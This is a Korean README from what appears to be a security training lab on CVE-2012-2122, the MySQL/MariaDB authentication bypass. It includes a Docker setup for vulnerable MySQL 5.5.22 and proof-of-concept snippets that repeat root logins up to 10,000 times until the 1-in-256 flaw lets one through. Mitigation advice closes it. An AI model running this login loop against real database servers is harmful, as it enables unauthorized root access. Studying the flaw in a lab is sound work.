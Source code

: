 # CVE-2012-2122

> 화이트햇 스쿨 1기 - [배소정 (@baethwjd2)](https://github.com/baethwjd2)

<br/>

### 요약

- CVE-2012-2122는 MySQL과 MariaDB의 특정 버전에서 발견된 **인증 우회** 취약점
- 특정 버전의 MySQL은 비밀번호의 해시값을 memcmp 함수로 캐스팅하여 인증
- memcmp 함수는 -128 ~ 127 사이의 값을 반환하므로, 잘못된 비밀번호를 입력하더라도 1/256의 확률로 로그인에 성공
- 따라서 임의의 비밀번호로 로그인을 반복함으로써, 악의적인 공격자가 DB의 root 계정을 쉽게 획득 가능

<br/>

### 환경 구성 및 실행

- `docker compose up -d` 커맨드를 입력해 테스트 환경을 실행 (취약점이 보고된 MySQL 5.5.22의 컨테이너 이미지 사용)
- `pip install pymysql` 커맨드로 poc.py 실행을 위한 pymysql 패키지 설치
- `python3 poc.py` 를 실행해 DB의 **root 계정**을 탈취할 수 있음. 유저 정보를 출력하여 root 계정으로 로그인이 됐는지 확인

<br/>

### poc.py

1/256의 확률로 로그인에 성공할 수 있으므로, 충분한 횟수만큼 로그인을 반복 시행한다.

```
for i in range(1, 10001):
    password = str(i)
    conn = pymysql.connect(user=user, password=password, host=host, port=port, charset='utf8')
```

유저 정보를 확인하여 root 계정 로그인에 성공했음을 확인한다.

```
cursor.execute("SELECT user()")
```

<br/>

### 결과

![](result.png)

<br/>

### 정리

해당 취약점을 통해 공격자는 root를 포함한 특정 사용자 계정에 로그인하여, 인가되지 않은 권한을 획득할 수 있다.

이러한 상황을 방지하기 위해, 가장 먼저 관리자는 DB 서버의 네트워크가 노출되지 않도록 노력해야 한다. 즉, 인가되지 않은 액세스를 차단할 수 있도록 미리 서버를 설정해야 한다. 그리고 주기적으로 서비스 취약점을 모니터링하고 패치해야 한다.

